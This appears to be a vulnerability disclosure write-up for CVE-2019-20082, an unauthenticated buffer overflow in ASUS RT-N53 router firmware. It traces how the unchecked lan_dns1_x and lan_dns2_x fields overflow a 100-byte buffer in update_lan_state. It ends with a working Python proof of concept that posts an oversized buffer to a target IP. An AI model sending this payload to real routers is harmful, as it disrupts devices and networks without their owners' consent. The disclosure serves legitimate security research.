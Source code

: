 # ASUS Unauth buffer overflow vulnerability

**Exploit Author**: pr0v3rbs@kaist.ac.kr

**Vender**: ASUS

## CVE-2019-20082

**Firmware version**: RT-N53 (Version 3.0.0.4.376.3754)

### The detail of vulnerability ###

There are hidden `lan_dns1_x`, `lan_dns2_x` input controls in the `Advanced_LAN_Content.asp` page.

![Advanced_LAN_Content.asp page](Advanced_LAN_Content_UI.png)

Before input the text, the `maxlength` and `onkeypress` need to be removed from the page, and then fill the value with a buffer which overcomes 126 sizes.

![Source code of the Advanced_LAN_Content.asp page](Advanced_LAN_Content_code.png)

In the `httpd` daemon, without any length or validation check, the transferred `lan_dns1_x`, `lan_dns2_x` parameters are saved in the NVRAM through the `sub_41ee90` and `sub_41e69c` (apply_new) function.

![sub_41ee90](sub_41ee90.png)

![sub_41e69c](sub_41e69c.png)

After the elements were saved in the NVRAM, the `init`(symbolic linked from the rc) process try to reload the system. However, in the `update_lan_state` function, the saved `lan_dns1_x`, `lan_dns2_x` elements are copied to the local buffer which has 100 sizes without any length check. At this point, when returning from the function, the buffer overflow occurred.

![update_lan_state](update_lan_state.png)

### PoC

```python
#!/usr/bin/env python3

import requests

IP = input('Target IP:').strip()

req = requests

headers = requests.utils.default_headers()
headers["User-Agent"] = "Mozilla/5.0 (Windows NT 10.0; WOW64; Trident/7.0; Touch; rv:11.0) like Gecko"
headers["Referer"] = "http://" + IP + "/"

buf = 'a'*128
payload = {'productid': 'RT-N53', 'current_page': 'Advanced_LAN_Content.asp', 'next_page': '', 'group_id': '', 'modified': '0', 'action_mode': 'apply_new', 'action_script': 'restart_net_and_phy', 'action_wait': '35', 'preferred_lang': 'EN', 'firmver': '3.0.0.4', 'wan_ipaddr_x': '', 'wan_netmask_x': '', 'wan_proto': 'dhcp', 'lan_proto': 'static', 'lan_dnsenable_x': '0', 'lan_ipaddr_rt': '192.168.1.1', 'lan_netmask_rt': '255.255.255.0', 'lan_proto_radio': 'static', 'lan_ipaddr': '192.168.1.1', 'lan_netmask': '255.255.255.0', 'dhcp_start': '192.168.1.2', 'dhcp_end': '192.168.1.254', 'lan_gateway': '0.0.0.0', 'lan_dnsenable_x_radio': '0', 'lan_dns1_x': buf, 'lan_dns2_x':''}

req.post('http://{}/start_apply.htm'.format(IP), headers=headers, data=payload, timeout=10)
print('sent buffer overflow packet')
```

### ASUS Hall of Fame
![](ASUS_HOF.png)